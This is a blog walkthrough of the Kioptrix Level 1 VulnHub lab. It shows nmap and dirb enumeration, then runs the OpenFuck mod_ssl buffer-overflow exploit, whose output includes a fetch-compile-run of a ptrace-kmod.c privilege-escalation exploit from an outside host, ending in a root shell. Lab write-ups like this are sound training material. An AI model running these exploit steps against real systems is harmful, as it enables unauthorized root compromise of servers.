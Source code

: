 ```yaml
---
layout: post
title:  "Kioptrix Level 1 Walkthrough"
date:   2019-04-09 15:44:02 +0530
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 1 is an easy vulnerable machine on vulnhub, link is below:<br>
[Kioptrix Level 1 download page]
<br>
<h2>1. Enumeration</h2>
The port scan below reveals several open ports including SSH, HTTP, RPC, Samba and 443.

{% highlight shell_session %}
nmap -T4 -sV -A -oN nmapscan.txt 192.168.0.66
Nmap scan report for 192.168.0.66
Host is up (0.0054s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-28T23:46:31+00:00; +1h01m49s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
Host script results:
|_clock-skew: mean: 1h01m48s, deviation: 0s, median: 1h01m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}<br>

<h3>1.1 OpenSSH port 22</h3>
Using <font color="red">searchsploit</font>, there appears to be no known vulnerabilities in the exploit database for OpenSSH.
<br>
<br>
<h3>1.2 HTTP port 80</h3>
Running <font color="red">dirb</font> reveals several interesting files including:

{% highlight shell_session %}
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirbresults.txt
URL_BASE: http://192.168.0.66/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.66/ ----
+ http://192.168.0.66/~operator (CODE:403|SIZE:273)
+ http://192.168.0.66/~root (CODE:403|SIZE:269)
+ http://192.168.0.66/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.0.66/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.0.66/manual/
==> DIRECTORY: http://192.168.0.66/mrtg/
==> DIRECTORY: http://192.168.0.66/usage/

---- Entering directory: http://192.168.0.66/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.0.66/mrtg/ ----
+ http://192.168.0.66/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.0.66/usage/ ----
+ http://192.168.0.66/usage/index.html (CODE:200|SIZE:3704)

-----------------
DOWNLOADED: 13836 - FOUND: 6
{% endhighlight %}
<br>
The only files that appear to be out of place are `~operator` and `~root`. However, these files appear have
a CODE:403 and cannot be accessed so this is a dead end.

<h3>Port 80 is running:</h3>
-Apache 1.3.20 (Not vulnerable)<br>
-Red-Hat/Linux <br>
-mod_ssl/2.8.4 OpenSSL/0.9.6b<br><br>

Using <font color="red">searchsploit</font> to search for these services, <font color="red">mod_ssl/2.8.4</font>
appears to be Vulnerable to a remote buffer overflow exploit.
<br><br>
<h2>2. Exploitation</h2>
Exploiting the <font color="red">mod_ssl/2.8.4</font> vulnerability:<br>
The exploit, remote buffer overflow named 'OpenFuck' and 'OpenFuckv2' appears
to be out date. However, i found a patched version of the exploit on Github linked below:<br>
[Fixed alternative version of 'OpenFuck' Github]
<br><br>
Executing the exploit:
<br>
The parameters are passed (version: 0x6b, IP address: 192.168.0.66 and open N connections: -c 50) <br>
{% highlight shell_session %}
./OpenFuckExploit 0x6b 192.168.0.66 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--11:16:09--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--11:16:10--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

11:16:10 (1.25 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 7066
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
{% endhighlight %}<br>
<h2>3. Root access gained!</h2>
The <font color="red">uid</font> and <font color="red">whoami</font> command shows root access to the system using the OpenFuck exploit.



[Kioptrix Level 1 download page]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[Fixed alternative version of 'OpenFuck' Github]: https://github.com/heltonWernik/OpenLuck
